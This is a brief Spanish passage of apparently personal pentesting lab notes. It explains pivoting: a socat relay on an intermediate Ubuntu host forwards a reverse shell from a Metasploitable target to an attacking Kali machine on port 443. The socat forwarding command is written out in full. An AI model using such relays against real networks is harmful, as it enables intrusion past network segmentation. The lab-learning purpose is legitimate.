 Dentro de la máquina Ubuntu intermedia, debemos ejecutar este comando para obtener una reverse shell de la máquina objetivo final hacia la máquina kali atacante, por lo que en primer lugar nos ponemos en escucha con netcat desde la máquina Kali:
![[Pasted image 20240615203355.png]]

Y en la máquina Ubuntu ponemos el siguiente comando:
```bash
socat tcp-l:443,fork,reuseaddr tcp:192.168.0.30:443
```

![[Pasted image 20240615203400.png]]

Y ahora la máquina ubuntu estará preparada para servir como puente y enviar la reverse shell a la kali, de tal forma, que todo el tráfico que reciba la máquina ubuntu por el puerto 443 lo va a enviar a la máquina kali por el mismo puerto, por lo que ahora si ejecutamos el comando para obtener una reverse shell, la habremos recibido desde la metasploitable a la máquina ubuntu:

![[Pasted image 20240615203405.png]]

Y en Kali recibimos la conexión:

![[Pasted image 20240615203410.png]]
